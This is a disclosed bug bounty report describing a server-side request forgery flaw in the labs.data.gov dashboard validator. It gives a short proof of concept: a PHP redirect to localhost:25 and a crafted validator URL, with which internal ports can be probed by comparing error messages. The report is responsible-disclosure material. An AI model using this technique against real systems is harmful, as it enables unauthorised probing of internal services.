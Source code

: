 # SSRF/XSPA in labs.data.gov/dashboard/validate

## Report Details
- **Report ID**: 272095
- **URL**: https://hackerone.com/reports/272095
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-09-26T16:40:23.115Z
- **Disclosed**: 2020-05-05T20:18:01.922Z

## Reporter
- **Username**: haxta4ok00
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_bbp

## Vulnerability Information
Hi.

This vulnerability allows access to all ports locally. Which is not visible from the web.

1)We need an interim site file index.php
2)Next we write in index.php

`<?
header("Location: http://localhost:25");
?>`

3)Next go to https://labs.data.gov/dashboard/validate

And write url - for example http://example/index.php

If the port will be open (locally) that we will see the inscription

`Source http://example/index.php
Schema federal-v1.1
Valid JSON false
Errors 
The validator was unable to determine if this was valid JSON`
F224225

if not open

`Source http://example/index.php
Schema non-federal
Errors 
File not found or couldn't be downloaded`
F224224

final url for example
`https://labs.data.gov/dashboard/validate?schema=federal-v1.1&output=browser&datajson_url=http%3A%2F%2Fexample%2Findex.php&qa=true&as_sfid=your_sfid&as_fid=your_fid`


thank you ,haxta4ok00

## Attachments
- false_port_258.png
- true_open_port_25_local.png
